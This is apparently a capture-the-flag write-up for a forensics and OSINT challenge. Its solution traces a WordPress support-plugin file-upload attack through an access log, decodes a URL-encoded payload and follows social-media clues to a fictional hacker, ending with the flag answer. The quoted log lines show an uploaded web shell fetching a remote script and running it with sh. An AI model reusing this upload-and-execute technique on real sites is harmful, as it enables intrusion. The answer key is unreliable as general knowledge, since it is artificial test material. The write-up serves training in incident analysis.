





### Story
> Partner's network was attacked. You were asked to investigate and find the attacker's name.

> Flag: hacker’s contacts in format: <name_surname>_<city>_<company>_<phone_number> 
> Example: John_Johnson_Chicago_CompanyExample_LLC_(123)33-22-452

### Given
Server log `access.log.txt`

Solution
===
1. Discover attack in log file\
Find Shell-code uploading\
`Line 645: 192.168.9.22	 - - [01/Jun/2019:12:55:07 +0000] "POST //wp-admin/admin-ajax.php?action=wpsc_tickets&setting_action=rb_upload_file HTTP/1.1" 301 289 "-" "Mozilla/5.0 (Windows NT 6.1; WOW64; rv:47.0) Gecko/20100101 Firefox/47.0"`\
Shell code exploitation\
`Line 665: 192.168.9.22	 - - [01/Jun/2019:14:25:00 +0000] "POST /wp-content/uploads/wpsc/1559393707_admin.php?upld%20%68%74%74%70%3a%2f%2f%62%69%74%2e%64%6f%2f%65%55%41%4a%57;sh%20/tmp/46 HTTP/1.1" 301 289 "-" "Mozilla/5.0 (Windows NT 6.1; WOW64; rv:47.0) Gecko/20100101 Firefox/47.0"`\
Get URL from exploit\
Decode string `%20%68%74%74%70%3a%2f%2f%62%69%74%2e%64%6f%2f%65%55%41%4a%57`and get the URL http://bit.do/eUAJW &rarr; that goes to GitHub\

2. GitHub repository analysis\
Find file where attacked server was mentioned - https://github.com/unvalidator/Code/blob/master/46252.txt\
\
Get the nickname from the top of the file - `perfectus17539`\
\

3. Social network analysis\
Find proper account in the social networks - https://twitter.com/perfectus17539\
Check information in tweets and get location of hacker &rarr; Richmond\
\
Find picture with QR-code, scan it and search proper data on Linkedin &rarr; https://www.linkedin.com/company/secfortress-llc\
\
Get hacker's contacts on Linkedin\
\

4. Profit!\
Flag: `Justin_Ostins_ Richmond_SecFortress_LLC_153-899-916(765)`
